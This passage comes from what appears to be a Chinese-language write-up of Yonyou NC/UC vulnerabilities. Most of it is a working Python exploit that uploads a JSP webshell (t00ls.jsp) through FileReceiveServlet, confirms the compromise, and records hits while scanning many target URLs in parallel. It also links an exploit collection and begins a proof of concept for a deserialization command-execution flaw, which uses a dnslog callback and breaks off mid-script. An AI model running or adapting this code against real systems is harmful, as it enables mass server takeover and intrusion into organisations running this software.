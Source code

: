 ```python
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)

            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example [url]http://127.0.0.1[/url]",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8)
```

当然也可以利用工具

[用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)

### 3.5 用友 `NC XbrlPersistenceServlet` 反序列化

已知用友 `NC6.5` 版本存在反序列化漏洞，攻击者可以执行系统命令，获取服务端权限。

```
/service/~xbrl/XbrlPersistenceServlet
```

POC:

```python
import requests
import threadpool
import urllib3
import sys
import base64

ip = "x.x.x.x"
dnslog = "*****" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
```